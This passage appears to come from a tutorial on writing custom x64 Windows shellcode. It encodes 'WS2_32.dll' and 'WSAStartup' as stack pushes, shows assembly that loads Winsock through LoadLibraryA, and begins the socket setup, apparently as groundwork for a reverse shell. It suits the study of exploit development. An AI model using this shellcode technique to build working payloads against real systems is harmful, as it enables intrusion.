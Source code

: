 The encoded value of `WS2_32.dll` is obtained:

```
PS C:\Users\s4dbrd\Desktop> python .\encodeString.py WS2_32.dll
mov rax, 0x6c6c
push rax;
mov rax, 0x642e32335f325357
push rax;
```

Afterwards, the necessary actions are added in our python code:

```
# Call LoadLibraryA to load WS2_32.DLL 
" xor rax, rax;"                      # Clear RAX register
" mov rax, 0x6C6C; "                  # Load the last two characters "ll" into RAX
" push rax;"                          # Push "ll" onto the stack
" mov rax, 0x642E32335F325357;"       # Load "WS2_32.d" into RAX
" push rax;"                          # Push "WS2_32.d" onto the stack forming "WS2_32.dll"
" mov rcx, rsp;"                      # Set RCX to point to the string "WS2_32.dll" on the stack
" sub rsp, 0x30;"                     # Allocate 48 bytes on the stack to preserve context during the call
" call rsi;"                          # RSI holds the address of LoadLibraryA, so we proceed to call it
" mov r15, rax;"                      # Store the return value (module handle) in R15
" add rsp, 0x30;"                     # Restore the stack by removing the 48 bytes allocated
" add rsp, 0x10;"                     # Adjust stack to remove the space used by "WS2_32.dll"
```

It is checked in WinDBG if the module has been loaded correctly.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-05_06-54.png" alt="">

### Calling WSAStartup

As discussed previously, the first API we need to call is `WSAStartup` to initiate the use of the `Winsock` DLL by our shellcode. The function prototype is shown below:

```cpp
int WSAStartup(
  WORD wVersionRequested,
  LPWSADATA lpWSAData
);
```

Where:
* `wVersionRequested`: Specifies the version of the Winsock API that the application intends to use. The high byte indicates the minor version number; the low byte represents the major version. For instance, to request version 2.2, the hexadecimal value `0x0202` should be used for this parameter.
* `lpWSAData`: A pointer to a `WSADATA` structure, which Winsock fills with information about the Windows Sockets implementation, including version details and additional system information.

The function name once encoded looks as follows:

```
mov rax, 0x7075
push rax;
mov rax, 0x7472617453415357
push rax;
```
